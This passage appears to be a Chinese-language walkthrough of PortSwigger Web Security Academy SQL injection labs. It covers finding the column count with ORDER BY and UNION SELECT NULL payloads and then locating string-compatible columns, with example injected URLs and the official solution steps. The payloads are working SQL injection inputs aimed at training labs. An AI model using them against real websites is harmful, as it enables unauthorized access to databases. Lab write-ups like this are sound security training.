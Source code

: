 ```http
https://0a7e00b604f6f09e800d12aa0056002e.web-security-academy.net/filter?category=Lifestyle' order by 3-- 
//正常返回
```

```http
https://0a7e00b604f6f09e800d12aa0056002e.web-security-academy.net/filter?category=Lifestyle' order by 4-- 
//报错
```

```http
https://0a7e00b604f6f09e800d12aa0056002e.web-security-academy.net/filter?category=Lifestyle' union select database(),null,null-- 
//过关
```

#### 官方解

1. Use Burp Suite to intercept and modify the request that sets the product category filter.

2. Modify the `category` parameter, giving it the value `'+UNION+SELECT+NULL--`. Observe that an error occurs.

3. Modify the `category` parameter to add an additional column containing a null value:

   ```
   '+UNION+SELECT+NULL,NULL--
   ```

4. Continue adding null values until the error disappears and the response includes additional content containing the null values.

### 四、判断字段对应位置

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

#### 步骤

```http
https://0a0700ca04d08408807c80ec0028003b.web-security-academy.net/filter?category=Lifestyle' union select null,'SBbxY3',null-- 
```

#### 官方解

1. Use Burp Suite to intercept and modify the request that sets the product category filter.

